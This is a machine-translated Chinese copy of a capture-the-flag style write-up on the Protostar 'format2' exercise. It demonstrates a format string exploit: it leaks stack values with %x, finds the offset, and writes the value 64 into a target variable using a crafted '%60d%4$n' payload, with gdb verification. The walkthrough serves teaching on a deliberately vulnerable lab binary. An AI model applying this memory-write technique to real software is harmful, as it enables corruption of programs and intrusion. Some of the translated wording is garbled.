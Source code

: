 # [ExpDev]漏洞利用练习|原恒星|格式 2

> 原文：<https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-2-73ef08011a8c?source=collection_archive---------1----------------------->

![](img/2efb532c4538935e46dd82617a38cc92.png)

# 格式 2(格式字符串基本 2)

这个挑战的目标是找到我们可以在内存中写入所提供的输入的位置，并找到正确的偏移值来打印获胜的语句。

*   链接:[https://exploit-exercises.lains.space/protostar/format2/](https://exploit-exercises.lains.space/protostar/format2/)

![](img/a4b6ea2750c378d19c4f67bebcf28125.png)

## 注意事项

*   `**char buffer[512]**`:设置缓冲区大小为 512。
*   `**fgets(buffer, sizeof(buffer), stdin)**`:获取用户提供的输入。并且它将缓冲区大小限制为 512。我们最多可以输入 511 个字节，因为 C 总是在末尾添加`0x00`作为终止符。
*   `**printf(buffer);**`:这是这段代码中易受攻击的函数。`printf()`将*而不是*检查所提供的输入是否是预期的格式字符串，因为它被编码为接受任何字符串值。因此，我们所能做的只是验证我们是否可以泄漏内存地址，并且还可以将任意代码写入堆栈(**【读取】** `%p`或`%x` → **【写入】** `%n`)。
*   `**if(target == 64) {**`:变量`target`是我们需要查找的地址。然后，通过利用格式字符串漏洞，我们将向`target`写入任意字节来匹配 64，以打印出获胜的语句。

# 拆解(GDB)

让我们反汇编二进制文件，看看在 ASM 级别做了什么:

```
**$ gdb -q format2**
Reading symbols from /opt/protostar/bin/format2...done.
**(gdb) set disassembly-flavor intel
(gdb) disassemble vuln**
```

![](img/1e065522e7005860581ed691eca53cde.png)

# 剥削

## 初步侦察

当我们提供一个随机字符串时，它会回显出来，并打印出“target is 0:(”

```
**$ python -c 'print "AAAA"' | /opt/protostar/bin/format2**
AAAA
target is 0 :(
```

但是如果我们提供一些格式字符串参数(`%x`)，我们会得到一些有趣的输出:

```
**$ python -c 'print "AAAA" + "|%08x" * 2' | /opt/protostar/bin/format2**
AAAA|0000200|b7fd8420    **<-- Leaking memory address**
target is 0 :(***### Format String Explanation
"%08x"*** *= "%x" is a Format String parameter of the hexdecimal 
         representation. The number "08" is called "width field" and 
         is the minimum which will pad the output of the %x 
         specified to 8 characters = 4 bytes long.*
```

## 寻找偏移

接下来，我们需要找到偏移值，我们可以在堆栈上看到我们提供的输入。尝试增加几个`%x`，我们可以发现偏移量为 4。

```
**$ python -c 'print "AAAA" + "|%08x" * 4' | /opt/protostar/bin/format2**
AAAA|00000200|b7fd8420|bffff5d4|**41414141    <-- chr(0x41) = "A"**
target is 0 :(
```

## 寻找“目标”变量地址

```
**$ objdump -t format2 |grep target**
**080496e4** g     O .bss **00000004**              target
```

`target`的地址存在于`0x080496e4`中。将它转换成 little-endian 格式= `\xe4\x96\x04\x08`。

将电源输入更改为找到的`target`地址。但是这次让我们看看是否可以使用`%n`在内存中写一些东西(= *写入作为参数*给出的地址中的字符数)。

```
**$ python -c 'print "\xe4\x96\x04\x08" + "%4$n"' | /opt/protostar/bin/format2**
�
target is 4 :(    **<-- It wrote "4" at the "target" location*****### Format String Explanation
"%4$08n"*** *= Directly access the 4th parameter on stack with "4$" and 
           write the address* (\xe4\x96\x04\x08**)** *there with "%08n"*
```

## 最终利用

太棒了。我们的下一个任务现在很清楚了，我们只需要计算出在将输出写入`target`时，需要多少额外的填充或宽度字段才能使输出达到 64 (= `0x40`十六进制)。肯定有更好的方法来解决这个问题，但是管它呢，这次让我们简单地做一个试错法😛。

好的，所以当我们添加更多的焊盘时，它会增加在`target`写入的输出。所以增加`%60d`宽度解决了这个挑战。

```
$ python -c 'print "\xe4\x96\x04\x08" + **"%10d" + "%4$08n"**' | /opt/protostar/bin/format2
       512
target is 14 :($ python -c 'print "\xe4\x96\x04\x08" + **"%20d" + "%4$08n"**' | /opt/protostar/bin/format2
                 512
target is 24 :($ python -c 'print "\xe4\x96\x04\x08" + **"%60d" + "%4$08n"**' | /opt/protostar/bin/format2
                                                         512
**you have modified the target :)**
```

## 最终利用# 2(*优雅的解决方案)

好吧，等等。让我用一种优雅的方式解释一下🙂。我将向您展示如何计算精确的宽度字段，以获得我们想要的输出。

首先，让我们将初始有效载荷(没有宽度填充)放入一个文件，这样我们就可以用 gdb 运行它。

```
**[Initial Payload]**
$ python -c 'print "\xe4\x96\x04\x08" + "%4$n"' > format2_payload
```

用 gdb 运行`Format 2`，将断点设置在`cmp eax, 0x40`位置。

```
**$ gdb -q format2**
  Reading symbols from /opt/protostar/bin/format2...done.
**(gdb) set disassembly-flavor intel 
(gdb) disassemble vuln**
  Dump of assembler code for function vuln:
  ...(snip)...
  0x0804848a <vuln+54>: mov    eax,ds:0x80496e4
  **0x0804848f <vuln+59>: cmp    eax,0x40**
  ...(snip)...  
  End of assembler dump.
**(gdb) break * 0x0804848f    <-- Breakpoint**
```

现在，让我们用有效载荷运行程序。

```
**(gdb) run < /home/user/format2/format2_payload**

**### Search for the "target"**
**(gdb) x/5x 0x80496e4**
  0x80496e4 <target>: **0x00000004** 0x00000000 0x00000000 0x00000000
  0x80496f4         : 0x00000000
```

你可以看到“4”被写入了`target`。有一种方法可以计算出我们需要填充多少宽度才能得到我们想要的输出。

```
**### Width Calculation**
"Desired byte" - "Current byte" = "Width"
```

我们在广发行做这个吧。

```
**(gdb) print 0x40 - 0x04**
  $1 = 60**"0x40"** = Hex representation of decimal 64 of our desired value
**"0x04"** = The currently outputted value at the "target"
```

好的，它计算了 60 的差异，这是我们的宽度。让我们更新我们的有效载荷，并再次反馈给 gdb 进行确认。

```
**[Final Payload]**
$ python -c 'print "\xe4\x96\x04\x08" + "%60d" + "%4$n"' > format2_payload**[GDB]**
**(gdb) run < /home/user/format2/format2_payload**
  Starting program: /opt/protostar/bin/format2 < /home/user/format2 
  /format2_payload
                                                         512 Breakpoint 1, 0x0804848f in vuln () at format2/format2.c:15
  15 in format2/format2.c
**(gdb) x/5x 0x80496e4**
  0x80496e4 <target>: **0x00000040** 0x00000000 0x00000000 0x00000000
  0x80496f4\.        : 0x00000000
**--> The output is updated to 0x40 (= 64 in decimal)****(gdb) x/3i $eip    <-- Querying next 3 instruction pointers**
  0x804848f <vuln+59>: cmp    eax,0x40
  0x8048492 <vuln+62>: jne    0x80484a2 <vuln+78>
  0x8048494 <vuln+64>: mov    DWORD PTR [esp],0x8048590
**(gdb) continue**
  Continuing.
  **you have modified the target :)** Program exited with code 040.
```

感谢阅读！

## 下一个挑战:

*   [**格式 3**](https://medium.com/@bigb0ss/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83) :格式字符串利用:基本 3

![](img/4386dc7dccb932a5644c84bedccdd603.png)